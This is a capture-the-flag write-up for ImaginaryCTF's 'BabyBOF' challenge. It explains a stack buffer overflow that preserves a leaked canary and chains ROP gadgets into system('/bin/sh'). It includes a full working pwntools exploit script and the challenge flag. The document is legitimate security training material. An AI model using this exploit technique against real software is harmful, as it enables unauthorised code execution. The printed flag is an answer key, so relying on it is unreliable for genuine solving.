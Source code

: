 BabyBOF Solution
Overview
Target: nc babybof.chal.imaginaryctf.org 1337
Flag: ictf{arent_challenges_written_two_hours_before_ctf_amazing}
This “baby” pwn prints everything you need: addresses for system, a pop rdi; ret gadget, a plain ret gadget, the location of "/bin/sh", and the stack canary. The input is read with an unsafe function, so we can overflow the stack, preserve the canary, and ROP into system("/bin/sh").
________________________________________
Recon
When you connect, the service leaks lines like:
system @ 0x7e68...
pop rdi; ret @ 0x4011ba
ret @ 0x401016
"/bin/sh" @ 0x404038
canary: 0xe444cd86f13ffc00
Give me your input:
From reversing / quick testing:
•	Buffer before canary: 56 bytes
•	Stack layout: 56 bytes buf | 8-byte canary | 8-byte saved RBP | RIP…
•	NX on, but ROP is fine since we’re handed gadgets + libc ptrs.
•	PIE/ASLR irrelevant because addresses are already leaked.
________________________________________
Exploit plan
1.	Keep the canary intact. Overwrite it with the exact leaked value.
2.	Maintain stack alignment. Insert a single ret before pop rdi; ret to keep a 16-byte aligned stack per SysV ABI (some libc calls care).
3.	Call system("/bin/sh").
o	pop rdi; ret → load "/bin/sh" into RDI
o	system address as leaked
Final ROP chain (after canary & saved RBP):
ret
pop rdi ; ret
"/bin/sh"
system
Payload layout:
"A" * 56
+ p64(canary)
+ "B" * 8              # saved RBP filler
+ p64(ret)             # alignment
+ p64(pop_rdi_ret)
+ p64(binsh)
+ p64(system)
________________________________________
Implementation (pwntools)
from pwn import *
import re

HOST, PORT = 'babybof.chal.imaginaryctf.org', 1337
context.arch = 'amd64'
BUF = 56

def parse_leaks(b):
    t = b.decode(errors='ignore')
    sys_   = int(re.search(r'^\s*system\s*@\s*(0x[0-9a-fA-F]+)\s*$', t, re.M).group(1), 16)
    popr  = int(re.search(r'^\s*pop rdi; ret\s*@\s*(0x[0-9a-fA-F]+)\s*$', t, re.M).group(1), 16)
    retg  = int(re.search(r'^\s*ret\s*@\s*(0x[0-9a-fA-F]+)\s*$', t, re.M).group(1), 16)
    binsh = int(re.search(r'^\s*"/bin/sh"\s*@\s*(0x[0-9a-fA-F]+)\s*$', t, re.M).group(1), 16)
    can   = int(re.search(r'^\s*canary:\s*(0x[0-9a-fA-F]+)\s*$', t, re.M).group(1), 16)
    return sys_, popr, retg, binsh, can

io = remote(HOST, PORT)
banner = io.recvuntil(b'input', drop=False)
system, pop_rdi_ret, retg, binsh, canary = parse_leaks(banner)

io.recvuntil(b':')
payload  = b'A'*BUF
payload += p64(canary)
payload += b'B'*8
payload += p64(retg)           # alignment
payload += p64(pop_rdi_ret)
payload += p64(binsh)
payload += p64(system)
io.sendline(payload)

io.sendline(b'cat flag.txt')
print(io.recvline(timeout=2).decode(errors='ignore').strip())
Gotcha that bit me
Make sure your regex for the plain ret line doesn’t accidentally capture the pop rdi; ret line. Anchor each pattern to its line (use ^...$ with re.M). If you mistakenly use pop rdi; ret where a plain ret is expected, your stack alignment breaks and the process exits (EOF).
________________________________________
Result
After sending the payload, we get a shell and read the flag:
ictf{arent_challenges_written_two_hours_before_ctf_amazing}
